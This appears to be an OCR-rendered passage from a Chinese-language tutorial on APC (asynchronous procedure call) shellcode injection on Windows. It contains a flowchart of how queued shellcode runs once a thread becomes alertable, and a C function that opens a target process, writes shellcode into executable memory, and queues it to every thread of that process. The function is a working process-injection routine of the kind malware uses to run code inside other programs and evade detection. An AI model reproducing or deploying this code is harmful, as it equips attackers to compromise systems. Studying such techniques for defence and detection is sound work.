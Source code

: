 ```
    ┌────────────────┐
    │ Thread 执行... │
    └────────────────┘
           │
           v
    ┌────────────────┐
    │ 调用 SleepEx   │ ← 进入 alertable 状态
    │ 或其他 API     │
    └────────────────┘
           │
           v
    ┌────────────────┐
    │ 系统检查       │
    │ APC 队列       │
    └────────────────┘
           │
           v
    ┌────────────────┐
    │ 执行 APC       │ ← shellcode 被执行！
    │ (shellcode)    │
    └────────────────┘
           │
           v
    ┌────────────────┐
    │ 返回正常执行   │
    └────────────────┘
```

---

## 代码实现

### 核心函数

```c
BOOL InjectShellcodeToProcess(DWORD pid, unsigned char *shellcode, size_t shellcode_size)
{
    // 1. 打开目标进程
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

    // 2. 分配远程内存
    LPVOID remoteMemory = VirtualAllocEx(hProcess, NULL, shellcode_size,
                                        MEM_COMMIT | MEM_RESERVE,
                                        PAGE_EXECUTE_READWRITE);

    // 3. 写入 shellcode
    WriteProcessMemory(hProcess, remoteMemory, shellcode, shellcode_size, &bytesWritten);

    // 4. 枚举目标进程的所有线程
    DWORD *threads = EnumerateProcessThreads(pid, &threadCount);

    // 5. 向每个线程的 APC 队列注入
    for (DWORD i = 0; i < threadCount; i++) {
        HANDLE hThread = OpenThread(THREAD_SET_CONTEXT, FALSE, threads[i]);
        QueueUserAPC((PAPCFUNC)remoteMemory, hThread, 0);
        CloseHandle(hThread);
    }

    return TRUE;
}
```
